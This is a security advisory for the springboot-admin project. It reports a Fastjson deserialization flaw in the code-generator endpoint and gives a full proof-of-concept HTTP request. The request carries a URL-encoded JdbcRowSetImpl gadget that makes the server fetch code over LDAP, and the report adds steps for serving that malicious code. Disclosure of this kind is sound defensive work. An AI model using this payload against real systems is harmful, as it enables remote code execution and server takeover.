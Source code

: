 **[springboot-admin](https://github.com/opplus/springboot-admin) Vulnerability Risk Report**

**Vulnerability Location:**
In the `@RequestMapping("/code")` endpoint of the `SysGeneratorController.java` class, specifically in the `JSON.parseArray(tables)` call.

![image-20250328185805310](img/image-20250328185805310.png)

**Vulnerability Description:**
The code uses the Fastjson library without enabling SafeMode or disabling AutoType features. The `JSON.parseArray()` method directly parses unvalidated user input (`tables` parameter). When using Fastjson ≤1.2.83, an attacker could craft malicious JSON data to achieve **Remote Code Execution (RCE)**.

![image-20250328182148905](img/image-20250328182148905.png)
The project is using a vulnerable version of Fastjson.

**Impact:**

- Remote Code Execution (RCE)
- Sensitive server data leakage
- Full server compromise

POC：

```
GET /vgk/dev/admin/sys/generator/code?X-Token=0a5e52568d4e5909d8c18e713c7bc50a&tables=[%7b%22%65%22%3a%7b%22%40%74%79%70%65%22%3a%22%6a%61%76%61%2e%6c%61%6e%67%2e%43%6c%61%73%73%22%2c%22%76%61%6c%22%3a%22%63%6f%6d%2e%73%75%6e%2e%72%6f%77%73%65%74%2e%4a%64%62%63%52%6f%77%53%65%74%49%6d%70%6c%22%7d%2c%22%66%22%3a%7b%22%40%74%79%70%65%22%3a%22%63%6f%6d%2e%73%75%6e%2e%72%6f%77%73%65%74%2e%4a%64%62%63%52%6f%77%53%65%74%49%6d%70%6c%22%2c%22%64%61%74%61%53%6f%75%72%63%65%4e%61%6d%65%22%3a%22%6c%64%61%70%3a%2f%2f%31%32%37%2e%30%2e%30%2e%31%3a%38%30%31%32%2f%4f%62%6a%65%63%74%22%2c%22%61%75%74%6f%43%6f%6d%6d%69%74%22%3a%74%72%75%65%7d%7d] HTTP/1.1
Host: 172.20.10.3:8889
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.20.10.3:8889/vgk/dev/admin/modules/sys/generator.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=bf1aebc9-2d47-47e5-8480-701256c9f1cc
x-forwarded-for: 127.0.0.1
Connection: close


```

**Proof of Vulnerability:**

Establish an LDAP service and load malicious code to exploit the deserialization flaw.![image-20250328182626670](img/image-20250328182626670.png)

Exploitation via Malicious Tables Parameter

![image-20250328183031757](img/image-20250328183031757.png)

Successful code execution

![image-20250328183135349](img/image-20250328183135349.png)
